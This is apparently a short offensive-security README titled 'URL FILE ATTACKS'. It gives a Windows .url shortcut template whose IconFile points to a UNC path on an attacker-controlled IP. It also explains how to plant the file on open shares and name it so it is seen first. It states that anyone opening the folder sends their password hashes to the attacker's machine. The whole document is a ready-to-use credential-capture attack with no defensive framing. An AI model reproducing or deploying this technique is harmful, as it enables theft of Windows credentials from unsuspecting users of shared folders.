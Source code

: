 # URL FILE ATTACKS

## Usage
```htlm
[InternetShortcut]
URL=blah
WorkingDirectory=blah
IconFile=\\x.x.x.x\%USERNAME%.icon
IconIndex=1
```
- get this file on target machine(e.g. open shares, etc.)
- name it: "'~something'.url" or "'@something'.url"

## Output
- as soon as someone opens that folder it is located at, hashes will be sent to your machine